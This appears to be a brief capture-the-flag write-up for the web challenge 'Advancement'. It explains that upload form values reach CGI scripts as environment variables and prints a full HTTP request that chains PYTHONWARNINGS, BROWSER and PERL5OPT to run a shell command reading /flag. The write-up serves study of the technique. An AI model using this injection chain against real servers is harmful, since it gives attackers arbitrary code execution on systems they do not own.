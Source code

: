 # Advancement (web 340)
A zero-day in goaccess caused by not sanitizing form values in uploads. These are passed directly as environment variables to CGI scripts, and can result in arbitrary code execution.

Here is my raw payload:

```
POST /cgi-bin/date HTTP/1.1
Host: advancement.chal.perfect.blue
Connection: close
Content-Length: 300
Content-Type: multipart/form-data; boundary=----W

------W
Content-Disposition: form-data; name="PYTHONWARNINGS"

all:0:antigravity.x:0:0
------W
Content-Disposition: form-data; name="BROWSER"

perlthanks
------W
Content-Disposition: form-data; name="PERL5OPT"

-Mbase;print(`cat\x20/flag`);exit;
------W--
padding so i don't have to recalculate the length wowowowowowow

```
